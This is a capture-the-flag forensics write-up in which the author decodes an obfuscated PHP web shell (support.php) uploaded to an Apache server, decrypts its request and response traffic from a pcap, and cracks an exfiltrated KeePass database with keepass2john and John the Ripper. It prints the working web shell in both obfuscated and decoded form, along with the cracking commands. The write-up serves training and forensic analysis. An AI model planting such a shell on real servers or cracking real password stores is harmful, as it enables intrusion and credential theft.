






##### Forensics - Easy

#### Description:
```text
An attacker has found a vulnerability in our web server that allows arbitrary 
PHP file upload in our Apache server. Suchlike, the hacker has uploaded a what 
seems to be like an obfuscated shell (support.php). We monitor our network 24/7
and generate logs from tcpdump (we provided the log file for the period of two 
minutes before we terminated the HTTP service for investigation), however, we 
need your help in analyzing and identifying commands the attacker wrote to 
understand what was compromised.
```


- We are given a .pcap file and a `support.php` file. Let's inspect the php file first:
```php
<?php
$V='$k="80eu)u)32263";$khu)=u)"6f8af44u)abea0";$kf=u)"35103u)u)9f4a7b5";$pu)="0UlYu)yJHG87Eu)JqEz6u)"u)u);function u)x($';
$P='++)u){$o.=u)$t{u)$i}^$k{$j};}}u)retuu)rn $o;}u)if(u)@pregu)_u)match("/$kh(.u)+)$kf/",@u)u)file_u)getu)_cu)ontents(';
$d='u)t,$k){u)$c=strlu)en($k);$l=strlenu)($t)u);u)$o=""u);for($i=0u);u)$i<$l;){for(u)$j=0;(u)$u)j<$c&&$i<$l)u)u);$j++,$i';
$B='ob_get_cou)ntu)ents();@obu)_end_cleu)anu)();$r=@basu)e64_eu)ncu)ode(@x(@gzu)compress(u)$o),u)$k));pru)u)int(u)"$p$kh$r$kf");}';
$N=str_replace('FD','','FDcreFDateFD_fFDuncFDFDtion');
$c='"php://u)input"),$u)m)==1){@u)obu)_start();u)@evau)l(@gzuu)ncu)ompress(@x(@bau)se64_u)decodu)e($u)m[1]),$k))u));$u)ou)=@';

$u=str_replace('u)','',$V.$d.$P.$c.$B);
$x=$N('',$u);$x();
?>
```

- It seems that the file is obfuscated, but it's not hard to see what's going on: we just need to do the `str_replace` in the $N and $u variables, then concatenate the rest of the variables:

```php
<?php

function cool()
{
    $k = "80e32263";
    $kh = "6f8af44abea0";
    $kf = "351039f4a7b5";
    $p = "0UlYyJHG87EJqEz6";

    function x($t, $k)
    {
        $c = strlen($k);
        $l = strlen($t);
        $o = "";

        for ($i = 0; $i < $l; ) {
            for ($j = 0; $j < $c && $i < $l; $j++, $i++) {
                $o .= $t[$i] ^ $k[$j];
            }
        }
        return $o;
    }

    if (
        @preg_match("/$kh(.+)$kf/", @file_get_contents("php://input"), $m) == 1
    ) {
        @ob_start();
        @eval(@gzuncompress(@x(@base64_decode($m[1]), $k)));
        $o = @ob_get_contents();
        @ob_end_clean();
        $r = @base64_encode(@x(@gzcompress($o), $k));
        print "$p$kh$r$kf";
    }
}

cool();
?>
```


- Now that we have decoded the php, we can see what's going on: this is a script that obfuscates http responses and requests, so an attacker can achieve some kind of encapsulation of commands when interacting with a server. This can be used for AV evasion or to give a harder time to SOC analysts.

- Upon inspecting the .pcap and filtering for http, we can see interesting traffic(the last 3 requests stand out):



- Let's inspect the first POST request, by following the HTTP traffic generated from it:



- Looking back at our script, it is evident that the data in the request and response is encrypted with the algorithm present in this script. Let's remember, from the challenge description, that this `support.php` file was maliciously uploaded to the server and now this file is being accessed by the attacker.

#### Decryption of the request body

- These are the lines that encrypt the request:
```php
	    if (@preg_match("/$kh(.+)$kf/", @file_get_contents("php://input"), $m) == 1) {
        @ob_start();
        @eval(@gzuncompress(@x(@base64_decode($m[1]), $k)));
        $o = @ob_get_contents();
```
- Let's break it down:
	- The `php://input` wrapper is actually just an alias for the request body data. From the contents of the if statement, we can see that the "actual" request data must be interlaced between $kh (`"6f8af44abea0"`) and $kf (`"351039f4a7b5"`). Looking back at the request captured in wireshark, we can confirm this. 
	- The next step is to base64 encode the data, apply the `x` function on it, which is just some xor operations and compress it uzing gzip. This way, we will get a valid request. This is of no interest for us right now, because the server is down and we will probably find our flag in the responses from the wireshark capture.

#### Decryption of the response

- In a similar manner, we just need to perform the inverse operations: base 64 decode, apply inverse `x` (which is just `x` again) and decompress the data.
```python
k = "80e32263"
kh = "6f8af44abea0"
kf = "351039f4a7b5"
p = "0UlYyJHG87EJqEz6"

def x(t, k):
    c = len(k)
    l = len(t)
    o = b""

    i = 0
    while i < l:
        j = 0
        while j < c and i < l:
            o += t[i] ^ k[j]
            j += 1
            i += 1

    return o

def write_response_to_file(response, filename):
    with open(filename, "wb") as file:
        file.write(response)

def decrypt_response(response):
    response = response.replace(kh, "").replace(kf, "").replace(p, "")

    response = base64.b64decode(response)

    response = x(response, k)

    # write_response_to_file( response, "intermediary" )

    response = zlib.decompress(response)

    return response

```

- Everything went well in python until i tried to decompress. I couldn't find the equivalent of php's `gzuncompress()`. I thought it was `zlib.decompress()`, but it did not work.. If anyone knows how to do it properly in python, please leave me a message :). 

- Decrypting in php did the trick :) The script can be found in the `sources` folder.

- Using the script, we can see that the first POST request is equivalent to this:


- The last POST request:


- The attacker tries to get the `pwdb.kdbx` file via HTTP. My guess is that, `.kdbx` is binary file, so base64 was used in order to not lose data. Or it was just for obfuscation purposes, but double obfuscation? Seems weird..
- Anyway, we have to adapt our script to add another base64 decoding when dealing with the last response. Then, we add the content of the respose in a file and we are left with a `.kdbx` file, which I have no idea what is about.


- Quick Google searches give us some hints that we can use `keepass2john` to transform this into an hash and then try and crack it. That's exactly what we will do (https://www.thedutchhacker.com/how-to-crack-a-keepass-database-file/):

```bash
$ keepass2john pass.kdbx > kdbx_hash

$ john --wordlist /usr/share/wordlists/rockyou.txt --format=keepass kdbx_hash

Warning: invalid UTF-8 seen reading /usr/share/wordlists/rockyou.txt
Using default input encoding: UTF-8
Loaded 1 password hash (KeePass [SHA256 AES 32/64])
Cost 1 (iteration count) is 6000 for all loaded hashes
Cost 2 (version) is 2 for all loaded hashes
Cost 3 (algorithm [0=AES, 1=TwoFish, 2=ChaCha]) is 0 for all loaded hashes
Will run 2 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
chainsaw         (?)
1g 0:00:00:01 DONE (2023-06-03 12:55) 0.7518g/s 2177p/s 2177c/s 2177C/s chainsaw..cicero
Use the "--show" option to display all of the cracked passwords reliably
Session completed

$ john --show kdbx_hash
pass:XXXXXXXX

1 password hash cracked, 0 left
```

- In order to view the keepass DB, I used an online viewer: https://app.keeweb.info/

- Uploaded the file, typed the password and we got this:

- Upon clicking the password, it is revealed, and guess what, it is the flag ;) 

- Along with that, we got a Github link, with the tool used to obfuscate the php shell: https://github.com/epinna/weevely3. Really cool stuff!

- Phew, this was a bit long for a "easy" challenge. Cheers!